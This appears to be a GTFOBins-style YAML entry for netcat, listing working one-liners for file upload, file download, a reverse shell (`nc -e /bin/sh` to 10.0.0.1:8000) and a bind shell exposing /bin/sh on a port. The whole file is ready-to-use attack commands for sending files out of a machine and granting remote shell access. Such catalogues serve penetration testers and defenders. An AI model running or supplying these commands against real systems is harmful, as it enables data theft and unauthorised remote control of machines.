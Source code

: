 ```yaml
---
functions:
  upload:
    - description: |
        Send a file to a TCP port. Run `nc -l -p 8000 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file from a remote TCP port. Run `nc 10.0.0.1 8000 < "file_to_send"` to send the file from the other end.
      code: |-
        LPORT=8000
        LFILE=where_to_save
        nc -l -p $LPORT > "$LFILE"
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - description: Run `nc 10.0.0.1 8000` to connect to the shell on the other end.
      code: |
        LPORT=8000
        nc -l -p $LPORT -e /bin/sh
---
```


